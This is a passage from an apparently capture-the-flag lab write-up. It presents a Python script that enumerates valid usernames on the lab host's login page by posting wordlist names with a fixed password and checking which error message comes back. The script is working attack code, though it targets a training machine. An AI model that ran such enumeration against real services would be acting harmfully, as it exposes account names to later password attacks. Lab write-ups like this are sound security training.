 ![Screenshot](/assets/img/Lookup/2.png)

there is no hidden directories here, so let's see what's next..

I'll use a Python script that automates checking for valid usernames against a login page by sending POST requests and checking the response for success or failure indicators.

```python

import requests

# Define the target URL
url = "http://lookup.thm/login.php"

# Define the file path containing usernames
file_path = "/usr/share/seclists/Usernames/Names/names.txt"

# Read the file and process each line
try:
    with open(file_path, "r") as file:
        for line in file:
            username = line.strip()
            if not username:
                continue  # Skip empty lines
            
            # Prepare the POST data
            data = {
                "username": username,
                "password": "password"  # Fixed password for testing
            }

            # Send the POST request
            response = requests.post(url, data=data)
            
            # Check the response content
            if "Wrong password" in response.text:
                print(f"Username found: {username}")
            elif "wrong username" in response.text:
                continue  # Silent continuation for wrong usernames
except FileNotFoundError:
    print(f"Error: The file {file_path} does not exist.")
except requests.RequestException as e:
    print(f"Error: An HTTP request error occurred: {e}")
```
